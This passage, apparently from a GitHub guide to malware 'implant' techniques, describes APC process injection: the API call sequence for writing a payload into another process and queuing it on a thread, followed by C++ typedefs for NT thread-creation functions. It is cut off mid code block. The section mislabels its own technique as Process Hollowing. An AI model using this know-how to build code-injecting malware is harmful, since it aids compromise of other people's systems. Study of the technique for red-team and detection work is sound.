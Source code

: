 7. [`VirtualAllocEx`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) - An empty buffer of memory is allocated within the a target process.
8. [`WriteProcessMemory`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) - The payload is written into the allocated memory within the target process.
9. [`QueueUserAPC`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) - Execute the payload by adding an Asynchronous Procedure Call (APC) object to a thread APC Queue, which contains a pointer to the payload, and wait for the thread to enter **Alertable State**.
</br> _Note: Although not a function used by the implant, note that the thread enters **Alertable State** only when the thread makes one of the following calls: `SleepEx()`, `SignalObjectAndWait()`, `MsgWaitForMultipleObjectsEx()`, `WaitForMultipleObjectsEx()`, `WaitForSingleObjectEx()`

It is important to underscore that, while classic process injection targets a running process, Asynchronous Procedure Call (APC) Injection goes several layers deeper in its use of threads, and the Asychronous Procedure Call (APC) queue. For this reason, in addition to different injection technique, a second targeting function is required to locate the running thread, after [the initial process targeting function](https://github.com/Wumbobfuscation/Wumbobfuscation/blob/main/Process%20Injection/Process%20Injection%20Template.md#process-targeting). A fluid understanding of process threads and Asychronous Procedure Calls (APCs) is necessary to properly implement APC Injection.

#### Asynchronous Procedure Call (APC) Injection Typedef
The Process Hollowing technique development exemplified here relies on an expanded number of [typedefs to key process injection functions](https://github.com/Wumbobfuscation/Wumbobfuscation/blob/main/Process%20Injection/Process%20Injection%20Template.md#process-injection-function-typedef). Further explanation of these functions can be found in the [NTAPI Undocumented Functions website](http://undocumented.ntinternals.net/). Links to specific function definitions are placed in the comments within the code block below:

```c++
typedef struct _CLIENT_ID {
	HANDLE UniqueProcess;
	HANDLE UniqueThread;
} CLIENT_ID, *PCLIENT_ID;

typedef LPVOID (WINAPI * VirtualAlloc_t)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flAllocationType,
	DWORD  flProtect);
	
typedef VOID (WINAPI * RtlMoveMemory_t)(
	VOID UNALIGNED *Destination, 
	const VOID UNALIGNED *Source, 
	SIZE_T Length);

typedef FARPROC (WINAPI * RtlCreateUserThread_t)(
	IN HANDLE ProcessHandle,
	IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL,
	IN BOOLEAN CreateSuspended,
	IN ULONG StackZeroBits,
	IN OUT PULONG StackReserved,
	IN OUT PULONG StackCommit,
	IN PVOID StartAddress,
	IN PVOID StartParameter OPTIONAL,
	OUT PHANDLE ThreadHandle,
	OUT PCLIENT_ID ClientId);

typedef NTSTATUS (NTAPI * NtCreateThreadEx_t)(
	OUT PHANDLE hThread,
	IN ACCESS_MASK DesiredAccess,
	IN PVOID ObjectAttributes,
	IN HANDLE ProcessHandle,
	IN PVOID lpStartAddress,
	IN PVOID lpParameter,
	IN ULONG Flags,
```